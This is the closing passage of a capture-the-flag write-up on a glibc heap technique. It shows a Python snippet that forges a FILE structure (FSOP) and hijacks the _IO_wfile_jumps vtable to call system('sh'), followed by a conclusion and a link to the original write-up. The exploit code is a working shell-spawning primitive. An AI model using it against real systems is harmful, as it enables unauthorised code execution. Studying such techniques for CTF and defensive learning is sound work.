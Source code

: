 
First allocation to stdout will do the leak.

```python
    FSOP = FSOP_struct(flags = u64(b"\x01\x01;sh;\x00\x00"), \
            lock            = struct_ptr + 0x10, \
            _IO_read_ptr    = 0x0, \
            _IO_write_base  = 0x0, \
            _wide_data      = struct_ptr - 0x10, \
            _unused2        = p64(libc.symbols['system'])+ b"\x00"*4 + p64(struct_ptr + 196 - 104), \
            vtable          = libc.symbols['_IO_wfile_jumps'] - 0x20, \
            )
    
    alloc(3,(0x2c8+1)*0x10, FSOP)
```
Second allocation will trigger `system("sh")` with the leak.

<br/>

## Conclusion
We got a nice technique to achieve code execution without any leak vulnerability. Big shout out to [@skuuk](https://x.com/s_k_u_u_k) for bringing this great technique and the challenge.

<br/>

## Reference
https://github.com/5kuuk/CTF-writeups/tree/main/tfc-2024/mcguava
